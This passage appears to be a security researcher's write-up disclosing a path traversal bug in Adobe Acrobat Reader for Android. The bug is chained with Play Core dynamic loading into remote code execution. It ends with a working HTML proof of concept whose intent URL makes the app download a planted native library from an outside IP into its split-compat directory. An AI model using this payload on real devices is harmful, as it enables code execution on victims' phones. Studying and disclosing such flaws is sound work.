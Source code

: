 This method `BBIntentUtils.getModifiedFileNameWithExtensionUsingIntentData` takes this.mUri.getLastPathSegment() as argument and which returns the decoded last segment in the path of the url.

For example let take this url `https://localhost/x/..%2F..%2Ffile.pdf` so when this url is passed to getLastPathSegment() method it will take `..%2F..%2Ffile.pdf` as last segment of the url and will return `../../file.pdf` as output.

There was not any sanitization performed in `downloadFile` variable before passing it into File instance which resulted into path traversal vulnerability.

# Getting RCE
-------------

Adobe Acrobat Reader app was using Google play core library to provide additional feature on the go to its users.

A simple way to know whether an app is using play core library for dynamic code loading is to check for `spiltcompat` directory in `/data/data/:application_id/files/` directory.

Using path traversal bug i can write an arbitrary apk in `/data/data/com.adobe.reader/files/splitcompat/1921618197/verified-splits/` directory of the app.The classes from the attacker’s apk would automatically be added to the ClassLoader of the app and malicious code will be executed when called from the app. For more detailed explanation read this [article](https://blog.oversecured.com/Why-dynamic-code-loading-could-be-dangerous-for-your-apps-a-Google-example/)

Adobe reader app also downloads an module name `FASOpenCVDF.apk` during runtime of app. The plan was to overwrite this file and acheive code execution remotely, but this was not possible. The issue was with this path traversal vulnerability i could not write over existing files… only create new files.

I was stuck at this stage for a long time finding a way to gain code execution remotely without installing an additional apk. After analysing other apps using play core library installed on my device, i saw play core library also provide feature of loading native code(.so files) from `/data/data/com.adobe.reader/files/splitcompat/:id/native-libraries/` directory.

`FASOpenCVDF.apk` module was also loading an native library from `/data/data/com.adobe.reader/files/splitcompat/1921819312/native-libraries/FASOpenCVDF.config.arm64_v8a` directory. I decided to take a look into `FASOpenCVDF.apk` source code and there i founded this module is also trying to load three unavailable libraries `libADCComponent.so`,`libColoradoMobile.so` and `libopencv_info.so` and this solved my issue of executing code remotely.

I created a simple poc native library , renamed it to `libopencv_info.so` and dropped it in /data/data/com.adobe.reader/files/splitcompat/1921819312/native-libraries/FASOpenCVDF.config.arm64_v8a directory, and from next launch whenever fill and sign feature would be used, the malicious code will be executed.

# Proof of Concept
------------------

```
<html>
<title> RCE in Adobe Acrobat Reader for android </title>
<body>
    <script>
        window.location.href="intent://34.127.85.178/x/x/x/x/x/..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.adobe.reader%2Ffiles%2Fsplitcompat%2F1921819312%2Fnative-libraries%2FFASOpenCVDF.config.arm64_v8a%2Flibopencv_info.so#Intent;scheme=http;type=application/*;package=com.adobe.reader;component=com.adobe.reader/.AdobeReader;end";
    </script>    
</body>
</html>


```
